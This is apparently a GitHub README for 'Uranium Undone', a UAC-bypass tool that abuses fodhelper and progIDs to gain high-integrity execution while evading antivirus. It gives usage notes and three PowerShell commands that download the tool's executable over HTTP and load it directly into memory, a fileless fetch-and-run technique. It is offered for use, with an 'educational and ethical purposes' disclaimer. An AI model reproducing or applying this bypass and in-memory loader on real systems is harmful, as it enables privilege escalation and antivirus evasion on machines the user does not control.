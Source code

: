 # Uranium_Undone
Uranium Undone is a simple UAC bypass using fodhelper with progIDs to help get past AV. Last tested 4/14/2022.  
![image](https://user-images.githubusercontent.com/15575425/158689240-ee26005f-0b65-400c-a36f-f2400fe9f2f3.png)


## Usage 
Execute Program and then enter the command to execute as needed. Program cleans up key after execution is complete.   
Should open the program in a High INT context.  
![image](https://user-images.githubusercontent.com/15575425/158689152-0dccaf68-848d-451e-a6a1-163834382959.png)

## load in memory
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Uranium_Undone.exe')"  
2. "$assem =[System.Reflection.Assembly]::Load($data)"  
3. "[Uranium_Undone.Program]::Main(" ")"  
**Double quotes on outsides of commands not needed are just for formatting**  

![image](https://user-images.githubusercontent.com/15575425/158689912-48fdac6c-eb19-4e45-98e2-2b9a1b57fc18.png)

## credit
Based on Joe Helle's (The mayor) Articles https://medium.themayor.tech/utilizing-a-common-windows-binary-to-escalate-to-system-privileges-c16482cced4b

## Disclaimer
I am not responsible for actions taken by users of Uranium Undone. Uranium Undone was released solely for educational and ethical purposes.  
